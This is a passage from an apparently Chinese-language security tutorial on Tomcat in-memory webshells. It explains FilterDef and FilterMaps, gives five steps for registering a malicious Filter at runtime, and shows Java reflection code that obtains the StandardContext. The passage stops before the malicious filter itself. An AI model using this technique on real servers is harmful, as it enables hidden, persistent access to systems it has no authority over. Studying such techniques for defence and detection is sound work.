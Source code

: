 可以看到，`filterDef`必要的属性为`filter`、`filterClass`以及`filterName`。

#### 4.2.2.2、FilterDefs

`filterDefs`是一个`HashMap`，以键值对的形式存储`filterDef`
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712630917582-e29e6e7a-2703-4142-8a95-7ceac34adbad-20240628123252190.png)

#### 4.2.2.3、FilterMaps

`filterMaps`中以`array`的形式存放各`filter`的路径映射信息，其对应的是`web.xml`中的`<filter-mapping>`标签
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712631009884-0d604604-756b-42f1-96dd-307604553f97.png)

```xml
<filter-mapping>
    <filter-name></filter-name>
    <url-pattern></url-pattern>
</filter-mapping>
```

`filterMaps`必要的属性为`dispatcherMapping`、`filterName`、`urlPatterns`
于是下面的工作就是构造含有恶意`filter`的`FilterMaps`和`FilterConfig`对象，并将`FilterConfig`添加到`filter`链中了。

### 4.2.3、动态注册Filter

经过上面的分析，我们可以总结出动态添加恶意`Filter`的思路

1. 获取`StandardContext`对象
2. 创建恶意`Filter`
3. 使用`FilterDef`对`Filter`进行封装，并添加必要的属性
4. 创建`filterMap`类，并将路径和`Filtername`绑定，然后将其添加到`filterMaps`中
5. 使用`ApplicationFilterConfig`封装`filterDef`，然后将其添加到`filterConfigs`中

#### 4.2.3.1、获取StandardContext对象

`StandardContext`对象主要用来管理`Web`应用的一些全局资源，如`Session`、`Cookie`、`Servlet`等。因此我们有很多方法来获取`StandardContext`对象。
`Tomcat`在启动时会为每个`Context`都创建个`ServletContext`对象，来表示一个`Context`，从而可以将`ServletContext`转化为`StandardContext`。

```java
//获取ApplicationContextFacade类
ServletContext servletContext = request.getSession().getServletContext();
 
//反射获取ApplicationContextFacade类属性context为ApplicationContext类
Field appContextField = servletContext.getClass().getDeclaredField("context");
appContextField.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
 
//反射获取ApplicationContext类属性context为StandardContext类
Field standardContextField = applicationContext.getClass().getDeclaredField("context");
standardContextField.setAccessible(true);
StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
```

#### 4.2.3.2、创建恶意`Filter`
